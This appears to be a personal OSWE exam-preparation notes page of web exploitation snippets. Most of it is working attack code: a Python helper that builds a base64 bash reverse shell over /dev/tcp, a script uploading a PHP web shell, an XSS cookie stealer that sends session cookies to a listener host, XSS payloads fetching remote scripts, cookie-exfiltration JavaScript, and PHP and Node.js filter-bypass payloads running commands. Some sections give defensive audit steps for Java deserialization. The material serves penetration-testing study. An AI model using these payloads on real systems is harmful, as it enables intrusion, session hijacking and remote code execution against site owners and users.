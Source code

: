 ```yaml
---
layout: python-code-snippets
title: Python Code Snippets
permalink: /python-code-snippets/
---
```


<!-- OSWE Reference (HTML) - paste into your .md file -->
<link href="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/themes/prism-tomorrow.min.css" rel="stylesheet" />
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/prism.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-python.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-javascript.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-php.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-java.min.js"></script>

<style>
  /* klisé-inspired variables (dark theme). Tweak these to match the theme precisely */
  :root{
    /* klisé-like palette (dark, muted blue/teal accents) */
    --bg: #071026;           /* page background */
    --panel: #0a1324;        /* panels / cards */
    --muted: #9aa6bd;        /* muted text */
    --text: #e6f0ff;         /* primary text */
    --accent: #6ad1ff;       /* primary accent (links, title) */
    --accent-2: #9be7a3;     /* secondary accent (headings) */
    --code-bg: #071020;      /* code block background */
    --border: rgba(255,255,255,0.06);
    --tile-border: rgba(255,255,255,0.04);
    --glass: linear-gradient(180deg, rgba(255,255,255,0.02), rgba(255,255,255,0.00));
  }

  /* Page container */
  .oswe-container{
    background: var(--bg);
    color: var(--text);
    font-family: Inter, -apple-system, "Segoe UI", Roboto, "Helvetica Neue", Arial;
    padding: 28px;
    line-height: 1.6;
    border-radius: 12px;
    box-shadow: 0 10px 30px rgba(2,6,23,0.6);
    max-width: 1100px;
    margin: 24px auto;
  }

  .oswe-title{
    color: var(--accent);
    margin: 0 0 6px 0;
    font-size: 1.9rem;
    letter-spacing: -0.5px;
  }

  .oswe-subtitle{
    color: var(--muted);
    margin: 0 0 18px 0;
    font-size: 0.95rem;
  }

  /* TOC */
  .oswe-toc{
    background: var(--glass);
    border: 1px solid var(--border);
    padding: 14px;
    border-radius: 10px;
    margin-bottom: 18px;
  }
  .oswe-toc a{ color: var(--accent); text-decoration: none; }
  .oswe-toc a:hover{ text-decoration: underline; }

  /* Headings */
  h1, h2, h3, h4 {
    color: var(--accent-2);
    margin-top: 20px;
  }
  h1 { font-size: 1.6rem; }
  h2 { font-size: 1.25rem; }
  h3 { font-size: 1.05rem; color: var(--accent); }

  /* Paragraphs & lists */
  p, li, pre, code { color: var(--text); }
  code.inline {
    background: rgba(255,255,255,0.03);
    padding: 2px 6px;
    border-radius: 6px;
    font-family: ui-monospace, SFMono-Regular, Menlo, Monaco, "Roboto Mono", "Courier New", monospace;
    font-size: .95em;
  }
  ul { margin-left: 1.1rem; }

  /* Panels */
  .panel {
    background: var(--panel);
    border: 1px solid var(--border);
    padding: 12px;
    border-radius: 10px;
    margin: 10px 0;
  }

  /* Code blocks (Prism theme file included above) */
  pre[class*="language-"] {
    background: var(--code-bg) !important;
    border-radius: 12px;
    padding: 18px;
    overflow: auto;
    margin: 18px 0;
    border: 1px solid var(--tile-border);
    box-shadow: inset 0 -10px 40px rgba(0,0,0,0.55);
    font-size: 0.95rem;
    color: var(--text);
    /* Make code blocks visually square "tiles" */
    width: 100%;
    max-width: 900px;          /* limit how wide the square grows on large screens */
    aspect-ratio: 1 / 1;       /* enforce square ratio */
    min-height: 320px;         /* ensure comfortable height on small screens */
    display: block;
    position: relative;
    line-height: 1.45;
    /* allow inner content to scroll if it overflows */
    overflow: auto;
  }

  /* If you prefer taller tiles on very small screens, this tweak helps */
  @media (max-width: 700px) {
    pre[class*="language-"] {
      aspect-ratio: auto;   /* disable strict square on narrow devices */
      min-height: 420px;
    }
  }

  /* Make code fonts a little larger for readability and use a nice monospace */
  pre code {
    font-family: "Fira Code", "JetBrains Mono", ui-monospace, SFMono-Regular, Menlo, Monaco, monospace;
    font-size: 0.95rem;
    tab-size: 4;
    white-space: pre; /* preserve spacing */
  }

  /* Add a small label in the top-left of each code tile (optional) */
  pre[class*="language-"]::before {
    content: attr(data-lang);
    position: absolute;
    top: 10px;
    left: 14px;
    font-size: 0.75rem;
    color: var(--muted);
    background: rgba(255,255,255,0.02);
    padding: 4px 8px;
    border-radius: 6px;
    border: 1px solid rgba(255,255,255,0.03);
  }

  /* small helper styles */
  .muted { color: var(--muted); font-size: .95rem; }
  .kbd { background:#0c1723; border:1px solid var(--border); padding:3px 6px; border-radius:6px; font-family: ui-monospace; color:var(--accent); }
  a { color: var(--accent); }
</style>

<div class="oswe-container">
  <h1 class="oswe-title">OSWE</h1>
  <p class="oswe-subtitle">Notes & snippets</p>

  <div class="oswe-toc panel">
    <strong>Contents</strong>
    <ol>
      <li><a href="#Concepts">Concepts</a></li>
      <li><a href="#Enable-Database-Debug-and-Logging">Enable Database Debug and Logging</a>
        <ul>
          <li><a href="#Postgres">Postgres</a></li>
          <li><a href="#MySQL">MySQL</a></li>
        </ul>
      </li>
      <li><a href="#Python-Code-Snippets">Python Code Snippets</a>
        <ul>
          <li><a href="#Starting-Template">Starting Template</a></li>
          <li><a href="#File-Upload">File Upload</a></li>
          <li><a href="#HTTP-File-Server">HTTP File Server</a></li>
        </ul>
      </li>
      <li><a href="#XSS-Payloads">XSS Payloads</a>
        <ul>
          <li><a href="#Payload-1">Payload 1</a></li>
          <li><a href="#Payload-2">Payload 2</a></li>
          <li><a href="#XSS-Cookies-Stealer">XSS Cookies Stealer</a></li>
          <li><a href="#Leverage-XSS-to-CSRF">Leverage XSS to CSRF</a></li>
        </ul>
      </li>
      <li><a href="#Java-Code-Snippets">Java Code Snippets</a></li>
      <li><a href="#Java-Insecure-Deserialization">Java Insecure Deserialization</a></li>
      <li><a href="#Regex-Cheetsheet">Regex Cheetsheet</a></li>
      <li><a href="#Bypass-PHP-Eval-Filtering">Bypass PHP Eval Filtering</a></li>
      <li><a href="#Bypass-Javascript-Injection-Filters">Bypass Javascript Injection Filters</a></li>
      <li><a href="#YSOSerial-Payload-Creation">YSOSerial</a></li>
      <li><a href="#Report-Recommendations">Report Recommedations</a></li>
      <li><a href="#Additional-Resources">Additional Resources</a></li>
    </ol>
  </div>

  <!-- CONTENT -->
  <h2 id="Concepts">Concepts</h2>

  <h3>Authentication Bypass:</h3>
  <div class="panel">
    <p class="muted">Common techniques:</p>
    <ul>
      <li>SQLi, XSS, Type Juggling, Application Logic Flaws, CORS, CSRF vb.</li>
    </ul>
  </div>

  <h3>Remote Code Execution:</h3>
  <div class="panel">
    <p class="muted">Common techniques:</p>
    <ul>
      <li>SQLi, Javascript Injection, File upload, Deserialization, SSTI, Prototype Pollution, SSRF.</li>
    </ul>
  </div>

  <h2 id="Enable-Database-Debug-and-Logging">Enable Database Debug and Logging</h2>

  <h3 id="Postgres">Postgres</h3>
  <p>Edit your <code class="inline">/etc/postgresql/&lt;version-num&gt;/main/postgresql.conf</code>, and change the lines as follows.</p>
  <p class="muted">Note: If you didn't find the postgresql.conf file, then just type <code class="kbd">$locate postgresql.conf</code> in a terminal</p>

  <p>Uncomment these fields:</p>
  <ol>
    <li><code class="inline">#log_directory = 'log'</code></li>
    <li><code class="inline">#log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'</code></li>
  </ol>

  <p>Change these fields values:</p>
  <ol>
    <li><code class="inline">#log_statement = 'none'</code> → <code class="inline">log_statement = 'all'</code></li>
    <li><code class="inline">#logging_collector = off</code> → <code class="inline">logging_collector = on</code></li>
    <li>Restart: <code class="kbd">sudo /etc/init.d/postgresql restart</code> or <code class="kbd">sudo service postgresql restart</code></li>
    <li>Fire query in postgresql: <code class="inline">select 2+2</code>.</li>
    <li>Find current log in <code class="inline">/var/lib/postgresql/10/main/log</code></li>
  </ol>

  <h3 id="MySQL">MySQL</h3>
  <p>Login to the MySQL instance and check out the <code class="inline">general_log</code> and values, whether it is set to ON or OFF:</p>
  <pre class="language-sql" data-lang="SQL"><code>show variables like '%log%';</code></pre>

  <p>If it's OFF, run as root:</p>
  <pre class="language-sql" data-lang="SQL"><code>SET GLOBAL general_log = 1;</code></pre>

  <p>Then check <code class="inline">general_log_file</code> to find where logs are written.</p>

  <h2 id="Python-Code-Snippets">Python Code Snippets</h2>

  <h3 id="Starting-Template">Starting Template</h3>
  <pre class="language-python" data-lang="Python"><code>import requests
import string
import re
import threading
import base64
import netifaces
import random
from concurrent.futures import ThreadPoolExecutor, as_completed
from http.server import BaseHTTPRequestHandler
from http.server import HTTPServer

GREEN = '\033[92m'   # Bright Green
RED = '\033[91m'     # Bright Red
RESET = '\033[0m'    # Reset to default color

# Define reusable symbols

success = f"{GREEN}[+]{RESET}"
failure = f"{RED}[-]{RESET}"

proxies = {"http":"http://127.0.0.1:8080"}

def generate_b64revshell(listener_ip, listener_port):

    payload = f"bash -i >& /dev/tcp/{listener_ip}/{listener_port} 0>&1"
    payload_bytes = payload.encode('ascii')
    b64payload = base64.b64encode(payload_bytes)
    base64_payload = b64payload.decode('ascii')
    return base64_payload

def register():

    ## Register logic

def login():

    ## Login Logic

if __name__ == "__main__":

    # Parsers

    parser = argparse.ArgumentParser(description="Full chain to RCE in Answers Application")
    parser.add_argument('--target-ip', type=str, required=True, help="Specify the target IP Address.")
    parser.add_argument('--listener-ip', type=str, required=True, help="Specify the listener IP Address.")
    parser.add_argument('--listener-port', type=str, required=True, help="Specify the listener IP Address.")   
    args = parser.parse_args()

    target_ip = args.target_ip
    listener_ip = args.listener_ip
    listener_port = args.listener_port

    # Main Logic

    username, password = register()
    usercookies = login(username, password)</code></pre>

  <hr />

  <h3 id="File-Upload">File Upload With Additional Parameters</h3>
  <pre class="language-python" data-lang="Python"><code>def uploadFile(phpsessid):

    url = "http://10.100.102.73:80/item/updateItem.php"

    payload_content = b"<?php system($_REQUEST['cmd']); ?>"
    pwny = io.BytesIO(payload_content)

    data = {
        "id": "1",
        "id_user": "1",
        "name": "Raspery Pi 4",
        "description": ("Latest Raspberry Pi 4 Model B with 2/4/8GB RAM raspberry pi 4 "
                        "BCM2711 Quad core Cortex-A72 ARM v8 1.5GHz Speeder Than Pi 3B"),
        "price": "92"
    }

    filename = ''.join(random.choices(string.ascii_letters + string.digits, k=4)) + '.phar'
    files = {
        "image": (filename, pwny, "application/octet-stream")
    }
    
    cookies = {

        "PHPSESSID": phpsessid
    }

    r = requests.post(url, data=data, files=files, cookies=cookies, proxies=proxies, allow_redirects=False)
    loginheader = r.headers.get("Location", "")
    match = re.search(r'index\.php$', loginheader)
    if match:
        print(f"[+] Filename {filename} uploaded successfully!")
    else:
        print("[-] File is not uploaded.")
    return filename</code></pre>

  <hr />

  <h3 id="HTTP-File-Server">HTTP File Server 1</h3>
  <pre class="language-python" data-lang="Python"><code>from http.server import BaseHTTPRequestHandler
from http.server import HTTPServer

LHOST      = "10.0.0.1"
WEB_PORT   = 8000
JS_PAYLOAD = "&lt;script&gt;alert(1)&lt;/script&gt;"

def start_web_server():
    class MyHandler(BaseHTTPRequestHandler):
        # Uncomment this method to suppress HTTP logs
        # def log_message(self, format, *args):
        #     return

        def do_GET(self):
            if self.path.endswith('/payload.js'):
                self.send_response(200)
                self.send_header("Content-Type", "application/javascript")
                self.send_header("Content-Length", str(len(JS_PAYLOAD)))
                self.end_headers()
                self.wfile.write(JS_PAYLOAD.encode())
            
    httpd = HTTPServer((LHOST, WEB_PORT), MyHandler)
    threading.Thread(target=httpd.serve_forever).start()

start_web_server()</code></pre>

  <h4>HTTP File Server 2</h4>
  <pre class="language-python" data-lang="Python"><code>from http.server import BaseHTTPRequestHandler, HTTPServer
import threading
import os

def start_web_server(host="192.168.45.249", port=80, directory="."):
    os.chdir(directory)
    
    class MyHandler(BaseHTTPRequestHandler):
        def do_GET(self):
            try:
                file_path = os.path.join(directory, self.path.lstrip("/"))
                if os.path.exists(file_path) and os.path.isfile(file_path):
                    self.send_response(200)
                    if file_path.endswith(".dtd"):
                        self.send_header("Content-type", "application/xml-dtd")
                    else:
                        self.send_header("Content-type", "text/plain")
                    self.end_headers()
                    with open(file_path, "rb") as f:
                        self.wfile.write(f.read())
                else:
                    self.send_response(404)
                    self.send_header("Content-type", "text/plain")
                    self.end_headers()
                    self.wfile.write(b"File not found")
            except Exception as e:
                self.send_response(500)
                self.send_header("Content-type", "text/plain")
                self.end_headers()
                self.wfile.write(f"Server error: {str(e)}".encode())

    httpd = HTTPServer((host, port), MyHandler)
    print(f"{success} Serving at {host}:{port}")
    threading.Thread(target=httpd.serve_forever, daemon=True).start()
    return httpd</code></pre>

  <h4>HTTP File Server 3</h4>
  <pre class="language-python" data-lang="Python"><code>import threading
import mimetypes

HOST = '0.0.0.0'
PORT = 8000
SERVE_DIR = '.'

def handle_client(conn, addr):
    print(f"{success} Connection from {addr}")
    try:
        # Receive request data
        request = conn.recv(1024).decode('utf-8')
        # print(f"Received request from {addr}: {request[:100]}...")  # Log first 100 chars        
        # Simple parsing: Extract the path from "GET /path HTTP/1.1"
        lines = request.split('\n')
        if lines and 'GET /' in lines[0]:
            path = lines[0].split(' ')[1]  # e.g., "/filename.txt"
            if path == '/':
                path = '/index.html'  # Optional: Default to index.html if root, but you can remove this
            full_path = os.path.join(SERVE_DIR, path.lstrip('/'))
            
            if os.path.exists(full_path) and os.path.isfile(full_path):
                # Read and send the file
                with open(full_path, 'rb') as f:
                    file_data = f.read()
                
                # Guess MIME type
                mime_type, _ = mimetypes.guess_type(full_path)
                if mime_type is None:
                    mime_type = 'application/octet-stream'
                
                # Basic HTTP response
                response = (
                    b'HTTP/1.1 200 OK\r\n'
                    b'Content-Type: ' + mime_type.encode('utf-8') + b'\r\n'
                    b'Content-Length: ' + str(len(file_data)).encode('utf-8') + b'\r\n'
                    b'\r\n'
                )
                conn.sendall(response + file_data)
                print(f"Served {full_path} ({len(file_data)} bytes) to {addr}")
            else:
                # 404 response
                response = b'HTTP/1.1 404 Not Found\r\nContent-Type: text/plain\r\n\r\nFile not found.'
                conn.sendall(response)
                print(f"File {full_path} not found for {addr}")
        else:
            # 400 for invalid request
            response = b'HTTP/1.1 400 Bad Request\r\nContent-Type: text/plain\r\n\r\nInvalid request.'
            conn.sendall(response)
    except Exception as e:
        print(f"Error handling {addr}: {e}")
    finally:
        conn.close()

def server():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)  # Allow reuse of address
        s.bind((HOST, PORT))
        s.listen(5)  # Backlog of 5 for queued connections
        print(f"{success}Background file server listening on {HOST}:{PORT} ... (serving from {SERVE_DIR})")
        while True:
            conn, addr = s.accept()
            # Handle each client in a separate thread for concurrency
            client_thread = threading.Thread(target=handle_client, args=(conn, addr))
            client_thread.start()

# Start the server in a background thread (daemon=True so it exits when main does)
server_thread = threading.Thread(target=server, daemon=True)
server_thread.start()

# Main program continues here (non-blocking)
print(f"{success} File server started in background. Main program running...")</code></pre>

  <h3 id="XSS-Cookies-Stealer">XSS Cookies Stealer</h3>
  <pre class="language-python" data-lang="Python"><code>def send_xss_payload():

    payload = "&lt;script&gt;document.location='http://10.100.102.67:9001/?c='+document.cookie&lt;/script&gt;"
    data = {
        'title': 'test',
        'author': 'blabla',
        'text': payload,
        'submit': 'Submit'
    }

    proxies = {"http": "http://127.0.0.1:8080"}  # Use Burp or comment this out
    try:
        r = requests.post(TARGET_URL, data=data, proxies=proxies)
        if r.status_code == 200:
            print("XSS payload sent successfully.")
        else:
            print(f"Server responded with status code: {r.status_code}")
    except Exception as e:
        print(f"Error sending payload: {e}")

def listen_for_cookies():

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((HOST, PORT))
        s.listen(1)
        print(f"Listening on {HOST}:{PORT} ...")
        print("Waiting for admin to trigger XSS...")

        conn, addr = s.accept()
        with conn:
            print(f"Connection from {addr}")
            data = conn.recv(2048)

            # Base64 encode for logging
            encoded_data = base64.b64encode(data).decode('utf-8')
            print(f"Base64 Encoded Request: " + encoded_data)

            decoded_data = data.decode('utf-8', errors='ignore')

            # Extract cookie
            match = re.search(r'PHPSESSID=([^;& ]+)', decoded_data)
            if match:
                cookie = match.group(1)
                print(f"PHPSESSID captured: " + cookie)
                return cookie
            else:
                print("PHPSESSID not found in received data.")

send_xss_payload()
listen_for_cookies()</code></pre>

  <hr />

  <h2 id="Java-Insecure-Deserialization">Java Insecure Deserialization</h2>

  <h3 id="Methods-and-Classes">Methods and Classes</h3>
  <div class="panel">
    <ul>
      <li><code>ObjectInputStream.readObject()</code> - Primary method for deserializing objects in Java.</li>
      <li><code>ObjectInputStream.readUnshared()</code></li>
      <li><code>ObjectInputStream.readResolve()</code></li>
      <li><code>ObjectInputStream.defaultReadObject()</code></li>
      <li><code>XMLDecoder.readObject()</code></li>
      <li><code>XStream.fromXML()</code></li>
      <li><code>ObjectMapper.readValue()</code> (Jackson)</li>
      <li><code>Kryo.readObject()</code> (Kryo)</li>
      <li><code>SnakeYAML.load()</code></li>
    </ul>
  </div>

  <h3 id="Identify-Insecure-Deserialization-in-Source-Code">Identify Insecure Deserialization in Source Code</h3>

  <p>When auditing source code, follow these steps to identify potential insecure deserialization vulnerabilities:</p>

  <h4 id="Search-for-Deserialization-Methods">Search for Deserialization Methods</h4>
  <p>Use code analysis tools (grep, IDE search, SonarQube) to find calls to the methods listed above.</p>
  <pre class="language-bash" data-lang="Bash"><code>grep -r "readObject" .
grep -r "XStream\.fromXML" .
grep -r --include="*.java" -E '(ObjectInputStream\.readObject\(|ObjectInputStream\.readUnshared\(|readResolve\(|defaultReadObject\(|XMLDecoder|XStream\.fromXML\(|ObjectMapper\.readValue\(|Kryo\.readObject\(|Kryo\.readClassAndObject\(|Yaml\.load\(|HessianInput\.readObject\()' .</code></pre>

  <h4 id="Trace-Input-Sources">Trace Input Sources</h4>
  <p>Trace inputs to see if untrusted (network, file upload, request params) data flows into deserialization APIs.</p>

  <h4 id="Check-for-Validation-or-Whitelisting">Check for Validation or Whitelisting</h4>
  <p>Look for <code>ObjectInputFilter</code> or similar filters. Example:</p>
  <pre class="language-java" data-lang="Java"><code>ObjectInputFilter filter = ObjectInputFilter.Config.createFilter("allowed.package.*;!*");
ObjectInputStream ois = new ObjectInputStream(input);
ois.setObjectInputFilter(filter);</code></pre>

  <h4 id="Inspect-Serializable-Classes">Inspect Serializable Classes</h4>
  <p>Find classes implementing <code>Serializable</code> or <code>Externalizable</code> and inspect special read/write hooks.</p>

  <h2 id="Regex-Cheetsheet">Regex Cheetsheet</h2>
  <p>Match a START and END delimeter in <code>r.text</code>:</p>
  <pre class="language-python" data-lang="Python"><code>r = requests.post(target, headers=headers, data=xml, proxies=proxies)
match = re.search(f'{re.escape("START DELIMETER")}(.*?){re.escape("END DELIMETER")}', r.text, re.DOTALL)
print(match[1].strip())</code></pre>

  <p>Extract a cookie value from response headers:</p>
  <pre class="language-python" data-lang="Python"><code>r = requests.post(target, headers=headers, data=xml, proxies=proxies)
set_cookie = r.headers.get('Set-Cookie', '')
match = re.search(r'JSESSIONID=([A-Za-z0-9]+);', set_cookie)
print(match.group(1))</code></pre>

  <h2 id="XSS-Payloads">XSS Payloads</h2>

  <h3 id="Payload-1">Load External JavaScript</h3>
  <ul>
    <li><code>&lt;img src="invalid-image" onerror="var script = document.createElement('script'); script.src='http://192.168.118.2/malicious.js'; document.body.appendChild(script);" /&gt;</code></li>
    <li><code>&lt;img src=x onerror=eval(atob("&lt;BASE64 JAVASCRIPT PAYLOAD&gt;"))&gt;</code></li>
    <li><code>&lt;audio onloadstart="var s=document.createElement('script');s.src='//192.168.45.163/worked.js';document.head.appendChild(s)"&gt;&lt;source&gt;&lt;/audio&gt;</code></li>
    <li><code>&lt;iframe/srcdoc="&lt;script/src=//192.168.45.163/worked.js&gt;&lt;/script&gt;"&gt;</code></li>
    <li><code>&lt;strong onafterscriptexecute=""&gt;&lt;script src="http://192.168.45.163/worked.js"&gt;&lt;/script&gt;&lt;/strong&gt;</code></li>
  </ul>

  <h3 id="Payload-2">Load Inline JavaScript</h3>
  <ul>
    <li><code>&lt;audio onloadstart="setTimeout(atob('YWxlcnQoIlhTUyIp'))"&gt;&lt;source&gt;&lt;/audio&gt;</code></li>
    <li><code>&lt;audio src=x onerror=Function(atob('YWxlcnQoIlhTUyIp'))()&gt;&lt;/audio&gt;</code></li>
    <li><code>&lt;audio onloadstart="Function(atob('YWxlcnQoIlhTUyIp'))()"&gt;&lt;source&gt;&lt;/audio&gt;</code></li>
    <li><code>&lt;video src=x onerror=eval(atob('YWxlcnQoIlhTUyIp'))&gt;&lt;/video&gt;</code></li>
  </ul>

  <h3 id="Leverage-XSS-to-CSRF">Leverage XSS to CSRF</h3>
  <pre class="language-javascript" data-lang="JavaScript"><code>var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};</code></pre>

  <h3 id="XSS-Cookies-Stealer-js">Filter cookie & send</h3>
  <pre class="language-javascript" data-lang="JavaScript"><code>function getCookieValue(name) {
    const cookieString = document.cookie;
    const cookies = cookieString.split('; ');
    for (let cookie of cookies) {
        const [key, value] = cookie.split('=');
        if (key === name) return value;
    }
    return null;
}
const cookieName = 'token';
const cookieValue = getCookieValue(cookieName);

var req2 = new XMLHttpRequest();
req2.open('GET', 'http://192.168.45.163/' + (cookieValue || ''), false);
req2.send();</code></pre>

  <h2 id="Bypass-PHP-Eval-Filtering">Bypass PHP Eval Filtering</h2>
  <pre class="language-php" data-lang="PHP"><code>get_defined_functions()['internal'][array_search(urldecode("%65%78%65%63"), get_defined_functions()['internal'])]("whoami");
(new ReflectionFunction(hex2bin("65786563")))->invoke('hostname');</code></pre>

  <h2 id="Bypass-Javascript-Injection-Filters">Bypass Javascript Injection Filters</h2>
  <pre class="language-javascript" data-lang="JavaScript"><code>(function(){module.constructor._load(Buffer.from('6368696c645f70726f63657373','hex').toString()).execSync('ping -c 2');})(); //" 
(function(){module.constructor._load(String.fromCharCode(99,104,105,108,100,95,112,114,111,99,101,115,115)).execSync('ping -c 2');})();//"</code></pre>

  <h2 id="YSOSerial-Payload-Creation">YSOSerial</h2>
  <h3 id="NET-Version">.NET Version</h3>
  <p><a href="https://github.com/pwntester/ysoserial.net">https://github.com/pwntester/ysoserial.net</a></p>

  <h3 id="JAVA-Version">JAVA Version</h3>
  <p><a href="https://github.com/frohoff/ysoserial">https://github.com/frohoff/ysoserial</a></p>

  <h2 id="Report-Recommendations">Report Recommedations</h2>
  <p>For code indentation:</p>
  <ul>
    <li>Copy the code straight from VS Code into a 1x1 table in Word</li>
  </ul>

  <h2 id="Additional-Resources">Additional Resources</h2>
  <p>Further practice & references:</p>
  <ul>
    <li><a href="https://github.com/yeswehack/vulnerable-code-snippets">https://github.com/yeswehack/vulnerable-code-snippets</a></li>
    <li><a href="https://github.com/bmdyy/order">https://github.com/bmdyy/order</a></li>
    <li><a href="https://github.com/bmdyy/chat.js">https://github.com/bmdyy/chat.js</a></li>
    <li><a href="https://github.com/bmdyy/tudo">https://github.com/bmdyy/tudo</a></li>
    <li><a href="https://github.com/bmdyy/testr">https://github.com/bmdyy/testr</a></li>
    <li><a href="https://github.com/TROUBLE-1/White-box-pentesting">https://github.com/TROUBLE-1/White-box-pentesting</a></li>
    <li><a href="https://www.vulnhub.com/entry/securecode-1,651">https://www.vulnhub.com/entry/securecode-1,651</a></li>
    <li><a href="https://github.com/takito1812/web-hacking-playground">https://github.com/takito1812/web-hacking-playground</a></li>
    <li><a href="https://pentesterlab.com/badges/codereview">https://pentesterlab.com/badges/codereview (paid)</a></li>
    <li><a href="https://github.com/b1d0ws/OSWE">https://github.com/b1d0ws/OSWE</a></li>
    <li><a href="https://regexlearn.com/learn/">https://regexlearn.com/learn/</a></li>
    <li><a href="https://www.nomachine.com/">https://www.nomachine.com/</a></li>
  </ul>

  <p class="muted">— end of document —</p>
</div>
